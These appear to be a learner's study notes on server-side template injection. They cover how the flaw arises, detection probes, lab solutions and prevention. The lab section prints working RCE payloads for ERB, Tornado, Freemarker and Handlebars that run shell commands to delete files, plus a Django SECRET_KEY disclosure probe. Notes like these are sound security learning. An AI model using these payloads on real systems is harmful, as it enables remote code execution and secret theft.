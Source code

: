 - Server-side template injection is when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side.

- Template engines are designed to generate web pages by combining fixed templates with volatile data. Server-side template injection attacks can **occur when user input is concatenated directly into a template, rather than passed in as data**. As the name suggests, server-side template injection payloads are delivered and evaluated server-side, potentially making them much more dangerous than a typical client-side template injection.

- In certain rare circumstances, these vulnerabilities pose no real security risk. However, most of the time, the impact of server-side template injection can be catastrophic. At the severe end of the scale, an attacker can potentially achieve remote code execution, taking full control of the back-end server and using it to perform other attacks on internal infrastructure.

## How do server-side template injection vulnerabilities arise?

- Correct way to use a template (Twig): 
```javascript
$output = $twig->render("Dear {first_name},", array("first_name" => $user.first_name));
```

- Uncorrect and dangerous way to use a template:

```javascript
$output = $twig->render("Dear " . $_GET['name']);
```

This potentially allows an attacker to place a server-side template injection payload inside the `name` parameter as follows:

```http
http://vulnerable-website.com/?name={{bad-stuff-here}}
```


## Constructing a server-side template injection attack

Identifying server-side template injection vulnerabilities and crafting a successful attack typically involves the following high-level process:

![[Schermata del 2024-12-03 19-48-53.png]]

We can exploit the Server-Side Template Injection by:
- injecting a template and forcing an error to find out the template engine used;
- find vulnerabilities on the web for the template engine found previously.

#### Detect

- The simplest initial approach is to try fuzzing the template by injecting a sequence of special characters commonly used in template expressions, such as `${{<%[%'"}}%\`. If an exception is raised, this indicates that the injected template syntax is potentially being interpreted by the server in some way. This is one sign that a vulnerability to server-side template injection may exist.
- Another method is to first establish that the parameter doesn't contain a direct XSS vulnerability by injecting arbitrary HTML into the value:

```http
http://vulnerable-website.com/?greeting=data.username<tag>
```

In the absence of XSS, this will usually either result in a blank entry in the output, encoded tags, or an error message. The next step is to try and break out of the statement using common templating syntax and attempt to inject arbitrary HTML after it:

```http
http://vulnerable-website.com/?greeting=data.username}}<tag>
```

If this again results in an error or blank output, you have either used syntax from the wrong templating language or, if no template-style syntax appears to be valid, server-side template injection is not possible. Alternatively, if the output is rendered correctly, along with the arbitrary HTML, this is a key indication that a server-side template injection vulnerability is present:

```html
Hello Carlos<tag>
```

## Labs

###### Lab: Basic server-side template injection

Injection of Ruby code in ERB template:

```html
<%= system("rm /home/carlos/morale.txt") %>
```

###### Lab: Basic server-side template injection (code context)

Injection of Python code in Tornado template in the POST request `/my-account/change-blog-post-author-display` body:

```http
blog-post-author-display=__import__("os").system("rm morale.txt")&csrf=2D4a3iCBYfS5wGNUBfAmWN4EuIrvNE3t
```

###### Lab: Server-side template injection using documentation

Freemarker template (Java-based) injection and remote code execution:
```java
${"freemarker.template.utility.Execute"?new()("rm morale.txt")}
```

###### Lab: Server-side template injection in an unknown language with a documented exploit

See if there's XSS in the query parameters. Otherwise, template inject:
```
{{1/0}}
```

Handlebars template injection:
```
wrtz{{#with "s" as |string|}} 
{{#with "e"}} 
{{#with split as |conslist|}} 
{{this.pop}} 
{{this.push (lookup string.sub "constructor")}} 
{{this.pop}} 
{{#with string.split as |codelist|}} 
{{this.pop}} 
{{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}} 
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}} 
{{/with}}
{{/each}}
{{/with}}
{{/with}} 
{{/with}}
{{/with}}
```

**NB: the injected code above must be URL-encoded (also the special character)!!**

###### Lab: Server-side template injection with information disclosure via user-supplied objects

To catch the **Django's SECRET_KEY** just inject:
```
{{settings.SECRET_KEY}}
```
or 
```
{% debug %}
```


## Prevention

- Don’t process user templates server-side
- If you have to, sandbox and disable dangerous modules
- Implement allowlist for allowed attributes
- Use **data binding** as much as possible. Don’t concatenate user strings with the template!


### SSTI vs [XSS](XSS%20(Cross-Site%20Scripting).md)

- XSS is usually made on client browser, while SSTI happens on server-side
- SSTI could imply XSS: if there's SSTI, there could be also XSS

SSTI is often mistaken for a simple XSS vulnerability. However, by setting mathematical operations as the value of the parameter, we can test whether this is also a potential entry point for a server-side template injection attack.
For example, consider a template that contains the following vulnerable code:

```javascript 
render('Hello ' + username)
```

During auditing, we might test for server-side template injection by requesting a URL such as:

```javascript
http://vulnerable-website.com/?username=${7*7}
```

If the resulting output contains `Hello 49`, this shows that the mathematical operation is being evaluated server-side.